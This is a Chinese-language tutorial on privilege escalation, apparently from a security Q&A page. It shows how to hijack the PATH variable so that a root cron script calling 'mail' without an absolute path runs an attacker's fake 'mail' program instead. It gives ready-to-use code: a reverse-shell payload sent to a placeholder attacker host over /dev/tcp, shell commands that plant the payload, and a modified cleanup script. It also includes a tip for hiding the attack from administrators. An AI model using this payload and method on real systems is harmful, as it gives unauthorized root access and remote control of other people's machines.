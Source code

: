 ### 某个定时任务执行的脚本内容是 `\#!/bin/bash;echo "Cleanup started" | mail -s "Status" $USER`，如何利用这个未指定绝对路径的 mail 命令提权

**攻击原理：滥用 `PATH` 环境变量**

这个漏洞利用的核心在于 **`PATH` 环境变量的优先级**

1. **`PATH` 的作用：** 在 Linux 系统中，当用户执行一个未指定绝对路径的命令（如 `mail` 或 `ls`）时，系统会按照 `PATH` 环境变量中列出的目录顺序，从左到右进行搜索，找到第一个匹配的同名可执行文件并运行
2. **`root` 用户的 `PATH`：** `root` 用户的 `PATH` 环境变量通常包含 `/usr/local/sbin`、`/usr/local/bin`、`/usr/sbin`、`/usr/bin` 等系统目录
3. **漏洞利用：** 如果我们能够**修改**或**控制**脚本执行时的 `PATH` 环境变量，将一个我们具有写入权限的目录（例如 `/tmp` 或 `/home/user/bin`）添加到搜索路径的**最前面**，那么系统就会优先执行我们在这个目录中创建的**恶意程序**，而不是真正的 `/usr/bin/mail`
4. **最终目标：** 我们将创建一个名为 `mail` 的恶意可执行文件，它真正的作用是执行我们的提权命令（获取一个 Root Shell）

****

**攻击载荷的构造与放置**

攻击的核心是创建一个名为 `mail` 的恶意可执行文件，并确保它能被 Root 用户的 `cron` 任务找到并执行

**1. 构造恶意 Payload**

我们创建一个简单的 Shell 脚本作为我们的恶意 `mail` 程序。这个脚本将执行我们想要运行的任何 Root 命令。最直接的目标是获取一个 **Root Shell**

**文件内容：**

```bash
#!/bin/bash

# 1. 执行反弹 Shell 命令
# 确保替换 YOUR_ATTACKER_IP 和 YOUR_PORT
/bin/bash -i >& /dev/tcp/YOUR_ATTACKER_IP/YOUR_PORT 0>&1 &

# 2. （可选）执行真正的 mail 命令以避免 cron 任务报错
# 这样做能让管理员和脚本看起来一切正常。
# /usr/bin/mail -s "Status" $USER
```

**2. Payload 放置位置**

我们选择一个我们有写入权限的目录，并确保该目录能在 `cleanup.sh` 执行时被添加到 `PATH` 环境变量中

**策略 A：修改用户级的 `PATH` 变量（针对 `cron` 任务）**

许多系统的 `cron` 守护进程在执行任务时，不会加载完整的用户环境变量文件（如 `.bashrc` 或 `.profile`），而是使用一个最小化的、硬编码的 `PATH`。因此，我们必须**直接修改 `cleanup.sh` 脚本**或者**在环境变量文件中强制覆盖**

步骤 1：创建 Payload 和目录

假设我们在自己的家目录中创建这个目录和文件：

```bash
mkdir -p /home/user/bin
# 写入恶意 Shell 脚本
echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/YOUR_ATTACKER_IP/YOUR_PORT 0>&1 &' > /home/user/bin/mail
# 赋予执行权限
chmod +x /home/user/bin/mail
```

步骤 2：劫持 `cleanup.sh` 脚本的 `PATH`（必需）

我们必须修改 `/home/user/cleanup.sh`，在执行 `mail` 命令之前，强制将我们的恶意目录添加到 `PATH` 的最前面

修改后的 `/home/user/cleanup.sh` 脚本内容：

```bash
#!/bin/bash

# 【!!! 攻击载荷：添加恶意目录到 PATH 最前面 !!!】
export PATH="/home/user/bin:$PATH"

# 脚本中的其他命令 (都使用了绝对路径，不受影响)
/bin/some/command
/bin/another/command

# 原始命令：系统现在会优先找到 /home/user/bin/mail 并执行
echo "Cleanup started" | mail -s "Status" $USER
```